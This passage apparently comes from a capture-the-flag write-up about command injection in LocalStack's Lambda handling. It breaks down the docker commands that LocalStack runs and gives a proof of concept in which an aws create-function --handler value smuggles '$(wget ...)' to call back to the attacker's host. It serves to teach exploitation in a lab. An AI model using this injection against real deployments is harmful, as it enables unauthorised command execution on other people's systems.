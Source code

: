 ### Command Injection in LocalStack

#### Looking for Injection

Each of these look the same, so I’ll break one down with whitespace and syntax. There’s three commands run by `sh`:

```

/bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler")";
docker cp "/tmp/localstack/zipfile.4ef57e23/." "$CONTAINER_ID:/var/task";
docker start -ai "$CONTAINER_ID";

```

`docker create`, `docker cp`, and `docker start`. Looking across all of that, the only place I really have input is in the first, which once I remove all the `-e` parameters that set environment vars in the container, looks like:

```

docker create -i --rm "lambci/lambda:nodejs12.x" "index.handler"

```

What’s interesting here is that I control the input for the image name and the function that’s called.

#### POC

To test for command injection in the `--handler` option, I’ll create a Lambda with a subshell in it to `wget` the path `/test` on my host:

```

oxdf@hacky$ aws lambda create-function --function-name 'ex' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler 'index.handler$(wget 10.10.14.6/test)' --runtime nodejs12.x
{
    "FunctionName": "ex",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "index.handler$(wget 10.10.14.6/test)",
    "CodeSize": 291,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2021-08-25T20:49:18.858+0000",
    "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "1fbfe1e9-d714-4a7c-b0d0-d303dc15650e",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}

```
